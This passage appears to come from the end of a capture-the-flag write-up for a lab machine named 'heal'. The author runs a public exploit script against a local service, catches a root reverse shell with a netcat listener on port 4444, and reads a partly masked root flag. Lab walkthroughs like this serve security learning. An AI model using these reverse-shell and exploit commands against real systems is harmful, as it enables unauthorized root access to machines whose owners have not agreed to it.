 I then started a listener on port 4444 and ran the exploit.

```sh
┌──(kali㉿kali)-[~]
└─$ python3 51117.py 127.0.0.1 8500 10.10.16.8 4444

[+] Request sent successfully, check your listener
```

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.46] 47178
bash: cannot set terminal process group (45548): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/#
```

Finally, I was able to capture the root flag.

```sh
root@heal:~# cat root.txt
da6d6c5*************************
```
